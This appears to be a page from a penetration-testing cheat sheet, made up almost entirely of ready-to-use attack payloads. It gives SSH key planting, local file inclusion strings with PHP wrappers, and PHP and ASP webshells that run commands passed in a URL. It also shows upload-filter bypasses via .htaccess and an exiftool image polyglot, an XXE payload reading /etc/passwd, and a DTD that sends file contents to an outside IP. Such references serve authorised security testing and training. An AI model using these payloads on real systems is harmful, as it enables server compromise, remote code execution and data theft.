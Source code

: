 ```bash
ssh -i id_key -p 2222

ssh -i root root@localhost -o IdentitiesOnly=yes
```
```bash
ssh-keygen -t rsa
mv id_rsa.pub authorized_keys
chmod 400 id_rsa
```
### LFI
```php
# page=...

php://filter/resource=admin.php
php://filter/convert.base64-encode/resource=admin.php

data://text/plain;base64,<base64>&cmd=ls

# EXEC
/tmp
/var/crash
/dev/shm
```
## Webshell
/usr/share/webshells
```php
<?php echo(system($_GET["cmd"])); ?>
<?php echo(shell_exec($_GET["cmd"])); ?>
<?php echo(exec($_GET["cmd"]));?>

<?php phpinfo();?>
```
Dfunc - php
```bash
git clone https://github.com/teambi0s/dfunc-bypasser
```
asp
```asp
<% eval request('cmd') %>
```
## File Upload
htaccess
```bash
echo "AddType application/x-httpd-php .tak" > .htaccess
```
polyglot
```
exiftool -Comment='<?php echo "START\n"; echo(system($_GET["cmd"])); echo "\nEND"; ?>' unnamed.jpg -o polyglot.php
```
Wordpress <br/>
https://github.com/p0dalirius/Wordpress-webshell-plugin
### XXE
```xml
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```
#### DTD
malicious.dtd
```xml:malicious.dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.1/?x=%file;'>">
```